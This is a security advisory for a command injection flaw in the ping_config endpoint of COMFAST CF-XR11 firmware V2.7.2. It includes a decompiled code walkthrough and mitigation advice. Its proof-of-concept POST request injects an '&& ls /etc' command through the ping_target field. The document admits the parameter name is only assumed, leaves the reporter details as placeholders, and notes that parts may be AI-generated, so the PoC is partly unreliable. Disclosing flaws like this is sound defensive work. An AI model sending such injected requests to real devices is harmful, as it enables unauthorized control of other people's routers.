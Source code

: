 # COMFAST CF-XR11 V2.7.2 Command Injection in `ping_config`

## Overview

The COMFAST CF-XR11 is an 1800Mbps smart MESH router supporting multiple WAN configurations (e.g., PPPoE, DHCP, static IP) and Wi-Fi Portal authentication.

A command injection vulnerability exists in the COMFAST CF-XR11 (firmware V2.7.2) in the `ping_config` API (`/usr/bin/webmgnt`, function `sub_441EC4`). Attackers can inject arbitrary commands via a user-controlled parameter involved in ping configuration, enabling unauthorized execution of system commands, sensitive information access, or full device compromise.

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-XR11

*   **Firmware**: V2.7.2

*   **Firmware Download**: [http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar](http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ping_config`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: \[Your Name/Handle] (\[Your Email Address])

### Description

The vulnerability originates in the `sub_441EC4` function handling the `ping_config` section. Analysis of the disassembly shows that a user-controlled parameter (likely related to the target IP/hostname for ping) is unsanitized and directly used in a command construction process.

Key code flow:



1.  The function parses user input via `blobmsg_parse_0`, extracting configuration parameters (including the vulnerable parameter).

2.  The extracted parameter (`v4`) is inserted into a command string using `sprintf_0(v8, &aBinPing4C4W2ST..., v4)`, where `aBinPing4C4W2ST` likely represents a ping command template (e.g., `ping -c 4 %s`).

3.  The constructed command is executed via `system_0(v8)`, with no input sanitization to block malicious command separators.

This allows attackers to inject arbitrary commands by adding delimiters (e.g., `&&`, `;`, `|`) to the vulnerable parameter, as the input is directly concatenated into the executed system command.

## Proof of Concept (PoC)

### PoC: List `/etc` Directory Contents



```
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET\&section=ping\_config HTTP/1.1

Host: cflogin.cn

Content-Length: 124

Accept: application/json, text/javascript, \*/\*; q=0.01

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36

Content-Type: application/json

Origin: http://cflogin.cn

Referer: http://cflogin.cn/guide/guide\_router.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: COMFAST\_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567

Connection: close

{"ping\_target":"8.8.8.8 && ls /etc > /www-comfast/ping\_test.txt","count":4,"timeout":2}
```



*   **Assumptions**: The vulnerable parameter is named `ping_target` (adjust if the actual parameter name differs based on further analysis).

*   **Steps**:

1.  Send the POST request using `curl`, Burp Suite, or similar tools.

2.  Access `http://cflogin.cn/ping_test.txt` to view the contents of the `/etc` directory.

*   **Result**: The output of `ls /etc` is written to `/www-comfast/ping_test.txt`, confirming arbitrary command execution.

## Affected Versions



*   COMFAST CF-XR11 V2.7.2 (other versions may also be affected; verification recommended)

## Mitigation Recommendations



1.  **Input Sanitization**: Implement strict validation on the vulnerable parameter (e.g., `ping_target`), allowing only valid IP addresses or hostnames. Reject inputs containing command delimiters (`;`, `&&`, `|`, `&`, `$`, backticks, etc.).

2.  **Command Execution Hardening**: Avoid directly concatenating user input into system commands. Use safe alternatives such as parameterized functions or whitelisted command templates that separate user input from executable code.

3.  **Least Privilege**: Restrict the permissions of the `webmgnt` process to minimize the impact of successful exploitation (e.g., prevent write access to critical system directories).

4.  **Firmware Update**: Release a patched firmware version addressing the input validation flaws and prompt users to upgrade immediately.

This vulnerability follows a similar pattern to the previously identified `multi_pppoe` command injection, highlighting a potential pattern of insufficient input sanitization in the device's configuration handling logic.

> （注：文档部分内容可能由 AI 生成）
